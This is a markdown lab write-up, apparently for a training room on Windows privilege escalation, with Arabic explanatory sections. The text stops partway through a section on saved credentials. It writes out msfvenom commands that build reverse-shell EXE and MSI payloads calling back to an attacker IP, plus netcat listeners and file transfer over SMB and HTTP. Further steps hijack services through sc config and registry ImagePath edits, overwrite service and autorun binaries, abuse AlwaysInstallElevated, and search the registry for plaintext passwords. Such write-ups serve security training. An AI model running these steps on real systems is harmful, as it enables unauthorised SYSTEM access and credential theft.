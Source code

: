 # Windows PrivEsc

<img width="1907" height="364" alt="image" src="https://github.com/user-attachments/assets/82f1df6e-1dca-4555-bfea-af1faf6f0869" />


>[!note]
> ### Connect to Target using `RDP srvice enabled`:
>
> ```ruby
> xfreerdp3 /u:user /p:password321 /cert:ignore /v:10.10.103.25
> ```
> Or
> ```ruby
> rdesktop 10.10.103.25 -u user -p password321
> ```
> #### `if winrm service is enabled` :
> ```ruby
> evil-winrm -i 10.10.103.25 -u user -p 'password321'
> ```
> #### `if SMB service is enabled` :
> ```ruby
> smbclient //MACHINE_IP/C$ -U user
> ```




- <details>
     <summary>Nmap Scan</summary>

  ```ruby
  nmap -sC -sV  10.10.103.25 
  ```
  
  **`output`**
  
  ```ruby
  PORT     STATE SERVICE       VERSION
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  445/tcp  open  microsoft-ds  Windows Server 2019 Standard Evaluation 17763 microsoft-ds
  3389/tcp open  ms-wbt-server Microsoft Terminal Services
  |_ssl-date: 2025-09-08T19:27:18+00:00; -2s from scanner time.
  | ssl-cert: Subject: commonName=WIN-QBA94KB3IOF
  | Not valid before: 2025-09-07T18:56:41
  |_Not valid after:  2026-03-09T18:56:41
  | rdp-ntlm-info: 
  |   Target_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Domain_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Computer_Name: WIN-QBA94KB3IOF
  |   DNS_Domain_Name: WIN-QBA94KB3IOF
  |   DNS_Computer_Name: WIN-QBA94KB3IOF
  |   Product_Version: 10.0.17763
  |_  System_Time: 2025-09-08T19:27:08+00:00
  5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-title: Not Found
  |_http-server-header: Microsoft-HTTPAPI/2.0
  Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s
  | smb-os-discovery: 
  |   OS: Windows Server 2019 Standard Evaluation 17763 (Windows Server 2019 Standard Evaluation 6.3)
  |   Computer name: WIN-QBA94KB3IOF
  |   NetBIOS computer name: WIN-QBA94KB3IOF\x00
  |   Workgroup: WORKGROUP\x00
  |_  System time: 2025-09-08T12:27:11-07:00
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  | smb2-time: 
  |   date: 2025-09-08T19:27:12
  |_  start_date: N/A
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 256.26 seconds
  ```
  
  - **`3389/tcp open  ms-wbt-server`** : That is mean `RDP service` is work
  - **`5985/tcp open  http`** : That is mean `WinRM HTTP service` is work
  - **`445/tcp  open  microsoft-ds`** : That is mean `SMB service` is work


     
  </details>



<details>
  <summary>Generate a Reverse Shell Executable</summary>

## 1. first Create **`Reverse Shell file`** on my kali device

```ruby
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

- **`msfvenom`** : Tool from Metasploit used to generate payloads.
- **`-p windows/x64/shell_reverse_tcp`** : Reverse shell type
- **`LHOST`** : Device IP that will recive the shell in this case will be my kali machine
- **`LPORT`** : port that shell will connect to it on kali
- **`-f exe`** : output file type `exe`
- **`-o reverse.exe`** : put the output in file call ``reverse.exe``

## 2. send reverse sell to windows

**`on kali Device open smb servrice on directory that have reverseshell file`**

```ruby
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```
### **`or it's alias`**

```ruby
impacket-smbserver kali . -smb2support
```



- **`kali`** : name share
- **`.`** : files that will avilable in the share here in current folder
- **`-smb2support`** : It makes the server support the SMBv2 protocol (important because modern Windows often does not accept SMBv1).


**`on Windows Device`**

```ruby
copy \\10.8.47.102\kali\reverse.exe C:\PrivEsc\reverse.exe
```

- copy file from kali machine to windows


---

<img width="638" height="147" alt="image" src="https://github.com/user-attachments/assets/0fb8c918-0b43-445d-81ce-ba68f457888f" />


<img width="1441" height="449" alt="image" src="https://github.com/user-attachments/assets/dce924e7-a87f-4dff-af42-349654bc9647" />

- **`that is mean file is copied to windows`**

---

### **`now run the reverse file on windows with lesten on port 4444 on kali`**

<img width="715" height="307" alt="image" src="https://github.com/user-attachments/assets/6c150d81-145e-4b5f-b16d-8985d3ffaf89" />

- **`here we go we receved the shell `**


  
</details>









<details>
  <summary>Service Exploits</summary>




- <details>
      <summary>🟦Understanding</summary>

  
  ## ``1. know all services that work on system and it's privileges``
  
  # **`CMD`**
  
  ```ruby
  sc query type= service state= all
  ```
  
  # **`PowerShell`**
  
  ```ruby
  Get-Service | Select-Object Name, Status, StartType
  ```
  
  
  ---
  ---
  
  ## ``2. know the privilges of the user on each service``
  
  ```ruby
  accesschk.exe -uwcqv user *
  ```
  
  > you must download **`accesschk.exe`**
  > 

  https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk

  <details>
    <summary>send it to vectem</summary>
  
  ## **`using SMB`**
  
  **`on kali`**
  
  ```ruby
  sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
  
  ```
  
  **`on windows`**
  
  ```ruby
  copy \\10.10.10.10\kali\accesschk.exe C:\PrivEsc\accesschk.exe
  ```
  
  ----
  ----
  
  ## **`using Powershell`**
  
  **`on windows`** if device connected to internet
  
  ```ruby
  Invoke-WebRequest -Uri "http://10.10.10.10/accesschk.exe" -OutFile "C:\PrivEsc\accesschk.exe"
  ```
  
  **`on kali`**
  
  ```ruby
  python3 -m http.server 80
  ```
  
  
    
  </details>


  > by default it downloaded on this machine 





  ---
  ---
  
  ## 3. found the services that work as **`SYSTEM`**
  
  # **`CMD`**
  
  ```ruby
  sc qc <ServiceName>
  ```
  
  > - look at **`SERVICE_START_NAME`** value
  
  # **`PowerShell`**
  
  ```ruby
  Get-WmiObject Win32_Service | Select-Object Name, StartName
  ```


  </details>








- <details>
      <summary>Insecure Service Permissions</summary>

  
  > ### Goal is prevEsc form normal user to `SYSTEM privileges` by **`daclsvc`** service 
  
  ## 1. first check the pricvllage of current user on this service ``(daclsvc)``
  
  ```ruby
  C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
  ```
  
  - **`accesschk.exe`** : This is Tool form _Sysinternals_ to check on privilege of current user on (files, folders, etc...)
  - **`/accepteula`** : this option to pybaass the first priv window
  - **`-uwcqv`** : options
    - **`u`** : user account
    - **`w`** : writeing privileges
    - **`c`** : change `config` privileges
    - **`q`** : `quiet` to make it simple
    - **`v`** : `verbose` for more details
  - **`user`** : username of current user
  - **`daclsvc`** : service name
      
  
  ---
  
  <img width="584" height="296" alt="image" src="https://github.com/user-attachments/assets/c8ab3ba2-ad0a-4c86-99e3-ace3b7ce30fb" />
  
  ### - **`Found that user have`** :
  
  ```ruby
  SERVICE_CHANGE_CONFIG
  ```
  ### - ``Thats mean this user can change settings of this service``
  
  
  ---
  
  ## 2. now we want to know privileges of the current service
  
  ```ruby
  sc qc daclsvc
  ```
  
  - **`sc qc`** : query config for service
  - **`daclsvc`** : name of the service
  
  ---
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  ### - we found :
  
  - **`SERVICE_START_NAME`** : the account that this service work with it
  - **`LocalSystem`** : that is mean if we run this service any program will run as **`SYSTEM`**
  
  
  
  ---
  
  > ### NOW WE know that :
  > - this service can work as **`SYSTEM`**
  > - current user can edit this service settings **`SERVICE_CHANGE_CONFIG`**
  
  
  ## 3. change the path of this service to path of our reverse shell that will send shell to kali with **`SYSTEM`** privileges : 
  
  ```ruby
  sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
  ```
  
  - **`sc config`** : change service settings
  - **`binpath=`** : the new path to that service will run it
  - **`\"C:\PrivEsc\reverse.exe\`** : reverse shell that we sent it before
  
  
  ### **`lesten on port 4444 on kali`**
  
  ### **`run the service`**
  
  <img width="677" height="212" alt="image" src="https://github.com/user-attachments/assets/ad7a133f-2592-45ba-9083-47dfb2ed716b" />
  
  ---
  
  ## receved the shell :
  
  <img width="719" height="210" alt="image" src="https://github.com/user-attachments/assets/7d36208c-ce01-4047-9eaf-04c855830e50" />
  
  ---
  
  ## see that we now **`SYSTEM`** user
  
  ```ruby
  whoami
  ```
  
  <img width="327" height="79" alt="image" src="https://github.com/user-attachments/assets/64e23bed-3b42-4219-8714-a256a4f0db96" />
  
  <details>
    <summary>more commands</summary>
  
  
  ## to see our privilleges
  
  ```ruby
  whoami /priv
  ```
  <img width="1282" height="624" alt="image" src="https://github.com/user-attachments/assets/a65ceb03-b5b5-4c09-a2fc-a2214f0ef8fc" />
  
  
  ## see the groups that i'm in : 
  
  ```ruby
  whoami /groups
  ```
  
  <img width="1158" height="249" alt="image" src="https://github.com/user-attachments/assets/c2689996-2809-4a2d-bec0-9508e3c0a142" />
  
  ```ruby
  systeminfo
  ```
  
  <img width="796" height="599" alt="image" src="https://github.com/user-attachments/assets/1ec7bb31-9838-41fd-8872-ffe6e0b1d56c" />
  
  ## to show all env variables: 
  
  ```ruby
  set
  ```
  
  <img width="1403" height="554" alt="image" src="https://github.com/user-attachments/assets/5a9fa26d-e836-4fe0-9ada-2372d7e46a96" />
  
  
    
  </details>
  
  
  > ## now the answer of the question :
  > What is the original BINARY_PATH_NAME of the daclsvc service?
  
  ```ruby
  sc qc daclsvc
  ```
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  **`answer`**
  
  ```ruby
  C:\Program Files\DACL Service\daclservice.exe
  ```
  


  </details>













- <details>
      <summary>Unquoted Service Path</summary>

     
     
     > ## in windows each service has :
     > - **`BINARY_PATH_NAME`** : THE path with refer to the place that have **`exe`** that this service will run it
     >   - if it's value writen without ``"..."`` that mean we can exploit it
     
     
     ---
     
     ## 1. first get info about the service (unquotedsvc)
     
     ```ruby
     sc qc unquotedsvc
     ```
     
     ## - found two important things
     
     > - **`SERVICE_START_NAME : LocalSystem`** : that is mean this service work as **`SYSTEM`**
     > - **`BINARY_PATH_NAME        : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`**
     >>  - IT without ``"..."``
     
     
     <img width="883" height="262" alt="image" src="https://github.com/user-attachments/assets/888cae7d-e707-4a32-bf40-02b668d079b5" />
     
     ---
     
     ## 2. TRY To know the privilege of current user on this path
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
     ```
     
     ## - **`RW BUILTIN\Users`** : that is mean any normal user can do read and write in this folder
     
     
     <img width="823" height="173" alt="image" src="https://github.com/user-attachments/assets/418384ed-aeff-4838-91b8-966a9933ba4d" />
     
     
     ---
     
     ## 3. move the reverse shell file to the new path with new name 
     
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
     ```
     
     <img width="778" height="82" alt="image" src="https://github.com/user-attachments/assets/28249e57-c476-4664-b89f-7b136ef20544" />
     
     
     
     ## 4. open listener on kali
     
     ```ruby
     sudo nc -nvlp 4444
     ```
     
     ## 5. run the service 
     
     ```ruby
     net start unquotedsvc
     ```
     
     <img width="963" height="412" alt="image" src="https://github.com/user-attachments/assets/5b8eaba2-2421-4e4d-9d67-96e604910b74" />
     
     ---
     
     <img width="1646" height="214" alt="image" src="https://github.com/user-attachments/assets/c25163f8-d4d4-4446-94b9-6398e62bcc7d" />
     



  </details>















- <details>
      <summary> Weak Registry Permissions</summary>

     
     
     > ## in windows each service has settings stored in `Registry` like:
     > - **`SERVICE_START_NAME`** : who run the service
     > - **`BINARY_PATH_NAME`** : the excutable file that run when this service run
     
     
     ## 1. first get info about the service (regsvc):
     
     ```ruby
     sc qc regsvc
     ```
     
     ```c
       BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
       SERVICE_START_NAME : LocalSystem
     ```
     
     
     <img width="836" height="255" alt="image" src="https://github.com/user-attachments/assets/5019fb82-41c1-45f7-8983-dcd88310af44" />
     
     
     ## 2. check the privilege of this user to wirte on **`Registry`**
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
     ```
     
     ```perl
     RW NT AUTHORITY\INTERACTIVE
           KEY_ALL_ACCESS
     ```
     
     ### - `that is mean any user have access to write on registry key of this service`
     
     
     <img width="797" height="192" alt="image" src="https://github.com/user-attachments/assets/88afff65-8a8a-4eaf-b3ad-ddc0cfedfbe0" />
     
     
     
     ## 3. edit Registry value and make it refer to our reverseshell file
     
     ```ruby
     reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
     ```
     
     - **`/v ImagePath`** : It determines that we change this particular value.
     - **`/t REG_EXPAND_SZ`** : Value type (String extended).
     - **`/d C:\PrivEsc\reverse.exe`** : New data (new path).
     - **`/f`** : (to not ask you for confirmation).
      
     
     ## 4. open Listener on kali
     
     ```ruby
     nc -nvlp 4444
     ```
     
     
     ## 5. run the service
     
     ```ruby
     net start regsvc
     ```
     
     
     <img width="995" height="568" alt="image" src="https://github.com/user-attachments/assets/0ae50a32-d149-46f3-98a6-4e17d9175224" />
     


     <details>
        <summary>الفرق بين daclsvc و regsvc Exploits</summary>
     
     
     
     
     
     ## الفرق بين daclsvc و regsvc Exploits
     
     
     الـ 2 إكسبلويت شبيهين في النتيجة (تشغيل ملفنا كـ SYSTEM)، لكن الاختلاف في **إيه اللي اتحكمنا فيه وإزاي**:
     
     ### 1️⃣ أول exploit (daclsvc)
     
     الأوامر:
     
     ```cmd
     sc qc daclsvc
     sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
     net start daclsvc
     ```
     
     * الخدمة أصلاً كانت بتشاور على ملف EXE في الـ `binpath`.
     * اليوزر عنده **SERVICE\_CHANGE\_CONFIG** → يقدر يعدّل إعدادات الخدمة باستخدام `sc config`.
     * غيّرنا الـ **binpath** بتاع الخدمة وخليّناه يشاور على ملفنا (reverse.exe).
     * لما شغّلنا الخدمة → الملف بتاعنا اتنفذ كـ SYSTEM.
     
     **الخلاصة**: استغلال صلاحية "تغيير إعدادات الخدمة" (config).
     
     ### 2️⃣ تاني exploit (regsvc)
     
     الأوامر:
     
     ```cmd
     accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
     reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
     net start regsvc
     ```
     
     * الخدمة (regsvc) بتشاور على المسار بتاعها من الريجستري (`ImagePath`).
     * عندنا صلاحية **كتابة على مفتاح الريجستري** ده (مش config بتاع الخدمة نفسها).
     * بدلنا قيمة الـ `ImagePath` في الريجستري وخليّناه يشاور على `reverse.exe`.
     * لما شغّلنا الخدمة → برضه ملفنا اتنفذ كـ SYSTEM.
     
     **الخلاصة**: استغلال صلاحية "كتابة في الريجستري" بدل "تغيير إعدادات الخدمة".
     
     ### الفرق الرئيسي:
     
     * **daclsvc**: عدّلنا إعدادات الخدمة باستخدام أمر `sc config` (بسبب صلاحية خدمة).
     * **regsvc**: عدّلنا **الريجستري** اللي الخدمة بتسحب منه الإعدادات (بسبب صلاحية على الريجستري).
     
     ---
     
     ## جدول مقارنة بين أنواع Service Exploits
     
     | نوع الاستغلال                 | المكان/الصلاحية المطلوب  | الطريقة                              | النتيجة                               |
     | ----------------------------- | ------------------------ | ------------------------------------ | ------------------------------------- |
     | DACL / Config Exploit         | SERVICE\_CHANGE\_CONFIG  | sc config تغيير binpath              | تشغيل ملف كـ SYSTEM                   |
     | Registry Exploit              | Write على Registry       | reg add لتغيير ImagePath             | تشغيل ملف كـ SYSTEM                   |
     | Unquoted Path Exploit         | Write على مجلد الخدمة    | وضع ملف باسم معين داخل مجلد غير مقفل | تشغيل الملف بصلاحيات SYSTEM عند start |
     | AlwaysInstallElevated Exploit | سياسات Windows Installer | تثبيت MSI خبيث                       | تشغيل كـ SYSTEM                       |
     | Weak Service Permissions      | أذونات ضعيفة على الخدمة  | sc config / binpath                  | تشغيل كـ SYSTEM                       |
     
     *ملاحظة*: كل الطرق السابقة تعتمد على أن الخدمة تعمل تحت SYSTEM أو حساب عالي الصلاحيات.
     
     
     ---


     # Windows Service Paths Explained
     
     ## 1️⃣ BINARY_PATH_NAME
     - ده الـ **path الحقيقي** للـ executable اللي السيرفيس هيشغله.
     - لما تعمل `sc config <service> binpath= "..."`، أنت فعليًا بتغير **المكان اللي النظام هيشغل منه البرنامج**.
     - أي تغيير هنا بيأثر على السيرفيس فورًا بعد إعادة التشغيل.
     
     ## 2️⃣ ImagePath
     - ده موجود في **Registry** تحت المسار:
       ```
       HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<ServiceName>
       ```
     - القيمة دي هي نفسها `BINARY_PATH_NAME`، لأنها مجرد **طريقة Windows لتخزين path السيرفيس** في الريجستري.
     - عمليًا هما بيشاوروا لنفس الملف، لكن `ImagePath` موجود في الريجستري، و`BINARY_PATH_NAME` بيشتغل بيه `sc.exe`.
     
     ## 3️⃣ العلاقة بينهم
     - لو غيرت `BINARY_PATH_NAME` عن طريق `sc config` → النظام بيحدث الـ `ImagePath` في الريجستري تلقائي.
     - لو غيرت `ImagePath` مباشرة في الريجستري → السيرفيس مش هيعرف لحد ما تعمله restart أو تستخدم `sc` لتحديثه.
     
     ## 4️⃣ ليه في Exploit غيرنا `binpath`؟
     - الهدف كان **تشغيل الـ reverse shell الخاص بينا كخدمة**.
     - الأمر المستخدم:
       ```
       sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
       ```
     - ده بيخلي السيرفيس يشتغل بالـ executable بتاعنا بدل الأصلي.
     - وده أساسي في **privilege escalation** على Windows لأن السيرفيس بيشتغل بـ SYSTEM privileges.
     
     ## مثال تشبيهي
     - تخيل عندك دفتر (Registry) وورقة (BINARY_PATH_NAME) فيها نفس الرقم:
       - لو كتبت الرقم في الورقة → الدفتر بيتحدث تلقائي.
       - لو كتبت الرقم في الدفتر بس → الورقة مش هتعرف إلا لما تقول لها "حدّثي نفسك" (restart أو `sc`).
     
     
          
     
     
     
     
     </details>






  </details>














- <details>
      <summary>Insecure Service Executables</summary>

     
     ## 1. Query the service configuration
     
     ```ruby
     sc qc filepermsvc
     ```
     
     - **`sc`** : `(Service Control)` Tool in windows
     - **`qc`** : `(Query Configuration)` to get service settings
     
     ---
     
     ```ruby
             BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
             SERVICE_START_NAME : LocalSystem
     ```
     
     
     <img width="856" height="276" alt="image" src="https://github.com/user-attachments/assets/8def86f3-a0a7-4c06-9e67-bd75f5a2f2ba" />
     
     ---
     
     ## 2. Check file permissions with accesschk
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
     ```
     
     - **`accesschk.exe`** : Tool from _Sysinternals_
     - **`/accepteula`** : It means "I agree to the user agreement" (required the first time).
     - **`-quvw`**
        - **`q`** : quiet
        - **`u`** : show user-specific permissions
        - **`v`** : `verbose` More detail
        - **`w`** : It focuses on write permissions (who has the authority to write to the file).
     - **`"C:\Program Files\File Permissions Service\filepermservice.exe"`** : The file whose permissions we want to see.
     
     ---
     
     ```ruby
      RW Everyone
             FILE_ALL_ACCESS
     ```
     
     ### - `🚨 that is mean every one on this system They have almost all the permissions on the file (read, write, modify, delete...).`
     
     
     
     <img width="923" height="268" alt="image" src="https://github.com/user-attachments/assets/71ec6c24-5cf3-4433-91dd-595bb89f31d8" />
     
     
     
     ## 3. Replace the service binary
     
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
     ```
     
     - **`copy`** : File copy command.
     - **`C:\PrivEsc\reverse.exe`** : The reverse shell we created (our malicious file).
     - **`"C:\Program Files\File Permissions Service\filepermservice.exe"`** : The original file of the service.
     - **`/Y`** : He lets the copying happen without asking you, “Are you sure you want to overwrite?”
     
     
     <img width="886" height="135" alt="image" src="https://github.com/user-attachments/assets/549d2f3a-bbfa-478d-8937-8b2065bd3199" />
     
     
     ## 4. Start listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     ## 5. Start the service
     
     ```ruby
     net start filepermsvc
     ```
     
     - **`net`** : A Windows tool for managing networks and services.
     - **`start`** : Service run command.
     - **`filepermsvc`** : service name
     
     
     <img width="1003" height="272" alt="image" src="https://github.com/user-attachments/assets/9898c0ad-670a-4870-aa16-862b6406cdb2" />
     
     



  </details>
  



  
</details>












<details>
  <summary>Registry</summary>



- <details>
     <summary>AutoRuns</summary>

     
     
     ## 1. Query the registry for AutoRun executables
     
     ```ruby
     reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
     ```
     
     - **`reg`** : A tool for managing the registry in Windows (query, add, delete...).
     - **`query`** : It means "View the contents of the key" (read only).
     - **`HKLM`** : HKEY_LOCAL_MACHINE shortcut (part of the registry that stores system settings for all users).
     - **`SOFTWARE\Microsoft\Windows\CurrentVersion\Run`** : The key that stores programs that start automatically when the system starts (Autoruns).
     
     
     <img width="728" height="147" alt="image" src="https://github.com/user-attachments/assets/16f69e3c-fea4-4bb8-96e5-fefde26211f3" />
     
     ```ruby
           "C:\Program Files\Autorun Program\program.exe"
     ```
     
     
     > ---
     > ### 📌 _The goal is to see which programs start automatically with every restart or login._
     > ---
     
     ## 2. Check file permissions with AccessChk
     
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
     ```
     
     - **`accesschk.exe`** : Tool from _Sysinternals_
     - **`/accepteula`** : It means "I agree to the user agreement" (required the first time).
          - **`-uvw`**
             - **`u`** : show user-specific permissions
             - **`v`** : `verbose` More detail
             - **`w`** : It focuses on write permissions (who has the authority to write to the file).
     - **`"C:\Program Files\Autorun Program\program.exe"`** : The executable file of the program that runs automatically.
     
     
     <img width="782" height="350" alt="image" src="https://github.com/user-attachments/assets/17076342-3a83-4c72-b480-87831a635f8d" />
     
     ```ruby
      RW Everyone
             FILE_ALL_ACCESS
     ```
     
     
     > ---
     > ### 📌 _The goal → Check if this file is writable by any user (Everyone or BUILTIN\Users). If ah → this is a big weakness._
     > ---
     
     
     ## 3. Overwrite the AutoRun executable
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
     ```
     
     <img width="799" height="84" alt="image" src="https://github.com/user-attachments/assets/083692ef-67ad-4936-902c-7a9e67ff94e1" />
     
     
     > ---
     > ### 📌 _Goal → Replace the program that runs automatically (program.exe) with our reverse shell._
     > ---
     
     
     ## 4. Start a listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     
     ## 5. Open a new RDP session to trigger
     
     ```ruby
     rdesktop 10.10.110.227
     ```
     
     > login with 
     
     ```css
     admin : password123
     ```
     
     <img width="515" height="291" alt="image" src="https://github.com/user-attachments/assets/a961e489-b99d-4bc2-b54b-b2f3e9a001f8" />
     
     ---
     
     <img width="1563" height="800" alt="image" src="https://github.com/user-attachments/assets/28d8261b-470d-49f0-a6f4-fdf1f704b37a" />
     
     
     > ---
     > ### 📌 _Shell will return with the privileges of the user who loged in_
     > ---
     

  </details>









- <details>
     <summary>AlwaysInstallElevated</summary>
     
     
     ## 1. Query the registry for AlwaysInstallElevated keys
     
     ```ruby
     reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     ```
     
     - **`reg`** : A tool for managing the registry in Windows (query, add, delete...).
     - **`query`** : It means "View the contents of the key" (read only).
     - **`HKLM`** : HKEY_LOCAL_MACHINE shortcut (part of the registry that stores system settings for all users).
     - **`HKCU`** : HKEY_CURRENT_USER shortcut (settings specific to the current user).
     - **`\SOFTWARE\Policies\Microsoft\Windows\Installer`** : Path to Windows Installer settings.
     - **`/v AlwaysInstallElevated`** : It means "Show me the value of the entry called `AlwaysInstallElevated`".
     
     <img width="846" height="236" alt="image" src="https://github.com/user-attachments/assets/d9c6095b-91f8-481b-993e-ddd252f7b347" />
     
     
     > ---
     > ### 📌 _Goal → Make sure that the two keys are present and set to 1 `(0x1)` → if yes That is mean any ``MSI package`` can be installed with `SYSTEM privileges`._
     > ---
     
     
     ## 2. Generate malicious MSI with msfvenom (on Kali)
     
     
     ```ruby
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.47.102 LPORT=4444 -f msi -o reverse.msi
     ```
     
     - **`msfvenom`** : Tool from Metasploit used to generate payloads.
     - **`-p windows/x64/shell_reverse_tcp`** : Reverse shell type
     - **`LHOST`** : Device IP that will recive the shell in this case will be my kali machine
     - **`LPORT`** : port that shell will connect to it on kali
     - **`-f msi`** : output file type `msi`
     - **`-o reverse.msi`** : put the output in file call ``reverse.msi``
     
     
     > ---
     > ### 📌 _Goal → Create a malicious MSI file that opens Reverse Shell._
     > ---
     
     
     ## 3. Transfer the MSI to Windows
     
     **`on kali`**
     
     ```ruby
     impacket-smbserver frank . -smb2support
     ```
     
     **`on windows`**
     
     ```ruby
     copy \\10.8.47.102\frank\reverse.msi C:\PrivEsc\
     ```
     
     <img width="1799" height="528" alt="image" src="https://github.com/user-attachments/assets/67da4d1c-c81c-4fd5-9cda-07fc681b94d5" />
     
     
     
     ## 4. Start a listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     
     ## 5. Run the malicious MSI on Windows
     
     ```ruby
     msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
     ```
     
     - **`msiexec`** : Windows Installer (responsible for installing .msi).
     - **`/quiet`** : install program without any GUI or popups.
     - **`/qn`** : Same idea (Quiet with No UI).
     - **`/i`** : install package
     - **`C:\PrivEsc\reverse.msi`** : The file we want to install.
     
     > ---
     > ### 📌 _Goal → Since `AlwaysInstallElevated=1` in `HKLM and HKCU` → any MSI installed will be installed as SYSTEM.Therefore, our reverse shell runs directly with SYSTEM privileges._
     > ---
     
     
     <img width="1299" height="269" alt="image" src="https://github.com/user-attachments/assets/dacdf0e5-a030-40cb-a0bf-983259fa7f6d" />
     
     
     



  </details>



     
</details>

















<details>
  <summary>Passwords</summary>




- <details>
     <summary>Registry</summary>

     
     >[!note]
     > **`(For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: password123)`**
     
     
     ## 1. Search for the word "password" in the registry
     
     ```ruby
     reg query HKLM /f password /t REG_SZ /s
     ```
     
     - **`reg`** : A tool for managing the registry in Windows (query, add, delete...).
     - **`query`** : It means "View the contents of the key" (read only).
     - **`HKLM`** : HKEY_LOCAL_MACHINE shortcut (part of the registry that stores system settings for all users).
     - **`/f password`** : /f means “filter” → Here we look for the text “password”.
     - **`/t REG_SZ`** : This means looking for values ​​of type string.
     - **`/s`** : `search recursively` (Searches all subkeys)
     
     
     > ---
     > ### 📌 _Goal → To see if anywhere in the registry there is a password stored in plain text._
     > ---
     
     
     ## 2. Search directly for AutoLogon key
     
     
     ```ruby
     reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
     ```
     
     - It goes directly to Winlogon key.
     - In some systems, this contains values ​​like:
        - **`DefaultUserName`**
        - **`DefaultPassword`**
        - **`AutoAdminLogon`**
     
     <img width="971" height="611" alt="image" src="https://github.com/user-attachments/assets/a727bcec-3976-4a4b-a097-53c290ca3265" />
     
          
     
     > ---
     > ### 📌 _Goal → To access the stored admin username and password so that the system performs an automatic login._
     > ---
     
     
     ## 3. Executing a command on the system using Winexe
     
     ```ruby
     winexe -U 'admin%password' //10.10.194.107 cmd.exe
     ```
     
     - **`winexe`** : A tool that allows you to run commands on a Windows machine from a remote Linux machine (similar to PsExec).
     - **`-U 'admin%password'`** :
        - **`-U`** : user
        - **`'admin%password'`** : Here we specify the username and password in the form `username%password`.
          - **`Example`** : `'admin%password123'`.
     - **`cmd.exe`** : The program we want to run on the target device (here is the command prompt).
     
     
     <img width="919" height="322" alt="image" src="https://github.com/user-attachments/assets/b1522bdc-bc17-4ef9-94ac-fa01a0d493c1" />
     
     
     
     
     > ---
     > ### 📌 _Goal → Command Prompt will open for you with Administrator privileges on the target device while you are running Kali._
     > ---




  </details>









- <details>
     <summary>Saved Creds</summary>

     ## 1. View stored Credentials
     
     ```ruby
     cmdkey /list
     ```
     
     - **`cmdkey`** : A built-in Windows tool for managing Stored Credentials.
     - **`/list`** : display all credentials Saved in the system.
     
     <img width="624" height="286" alt="image" src="https://github.com/user-attachments/assets/d2523f9e-11b6-4c5c-a214-8cdb185886cb" />
     
     
     > ---
     > ### 📌 _Goal → To see if there is a user (such as admin) stored with its password in the Windows Vault._
     > ---
     
     <details>
          <summary>Note</summary>
     
     >[!Note]
